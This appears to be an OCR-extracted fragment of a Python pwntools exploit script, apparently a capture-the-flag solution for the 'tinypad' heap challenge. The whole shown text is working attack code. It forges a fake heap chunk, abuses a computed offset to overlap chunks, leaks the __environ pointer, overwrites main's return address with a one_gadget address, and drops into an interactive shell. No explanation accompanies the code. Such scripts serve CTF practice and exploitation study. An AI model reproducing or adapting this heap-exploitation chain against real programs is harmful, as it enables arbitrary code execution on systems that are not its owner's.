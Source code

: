 ```python
	p64(tinypad_addr + 0x20)
])
edit(3, 'd' * 0x20 + fake_chunk)

offset = heapbase + 0x20 - (tinypad_addr + 0x20)
print(hex(offset))
offset_strip = p64(offset).strip('\x00')
number_of_zeros = len(p64(offset)) - len(offset_strip)
for i in range(number_of_zeros + 1):
	data = offset_strip.rjust(0x18 - i, 'f')
	edit(1, data)
delete(2)

payload = flat([
	'd' * 0x20,
	p64(0),
	p64(0x101),
	p64(main_arena + 88),
	p64(main_arena + 88)
])
edit(4, payload)
# debug('bin\n')

#change main return address
one_gadget_addr = base + 0x45216
environ_pointer = libc.sym['__environ']

fake_pad = flat([
	'f' * (0x100 - 0x20 - 0x10),
	'a' * 8,
	p64(environ_pointer),
	'a' * 8,
	p64(0x602148) #idx 0
])
add(0x100 - 0x8, fake_pad)	#idx 1
# debug('bin\n')

p.recvuntil('# CONTENT: ')
environ_addr = u64(p.recvuntil('\n')[:-1].ljust(8, '\x00'))
print(hex(environ_addr))
# debug('bin\n')

main_ret_addr = environ_addr - 0xf0
edit(2, p64(main_ret_addr))
edit(1, p64(one_gadget_addr))

p.recvuntil('>>>')
p.sendline('Q')
p.interactive()
```



